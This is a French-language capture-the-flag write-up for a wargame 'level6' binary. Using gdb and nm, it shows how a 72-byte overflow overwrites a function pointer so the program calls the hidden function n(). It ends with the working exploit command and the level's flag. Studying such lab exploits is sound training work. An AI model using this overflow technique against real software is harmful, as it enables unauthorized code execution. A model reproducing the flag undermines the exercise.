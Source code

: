 # уровень 6

- L'idée ici est de faire en sorte que la fonction n soit appeler par le programme. Grace à la variable f.

<pre>
$> gdb ./level6

(gdb) disass main
Dump of assembler code for function main:
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    0x18(%esp),%eax
   0x080484ce <+82>:    mov    (%eax),%eax
<strong>   0x080484d0 <+84>:    call   *%eax</strong>
   0x080484d2 <+86>:    leave 
   0x080484d3 <+87>:    ret
End of assembler dump.
</pre>

- Ici nous avons l'adresse de f. Nous placons un breakpoint pour faire des tests et trouver les bon offset.

<pre>
(gdb) b *0x080484d0
Breakpoint 1 at 0x80484d0
(gdb) r $(python -c "print('A' * 72 + 'BBBB')")

Starting program: /home/user/level6/level6 $(python -c "print('A' * 72 + 'BBBB')")

Breakpoint 1, 0x080484d0 in main ()
<strong>(gdb) x/s $eax
0x42424242:      Address 0x42424242 out of bounds
</strong>
</pre>

- Bingo nous arrivons bien à ecrire sur la memoire. Il ne nous reste plus qu'à placer l'adresse de la fonction n().

<pre>
$> nm level6

...
08048468 T m
0804847c T main
         U malloc@@GLIBC_2.0
<strong>08048454 T n</strong>
...
</pre>

- Ce qui nous donnes en little indian: 54 84 04 08

<pre>
$> ./level6 $(python -c "print('A' * 72 + '\x54\x84\x04\x08')")

f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

</pre>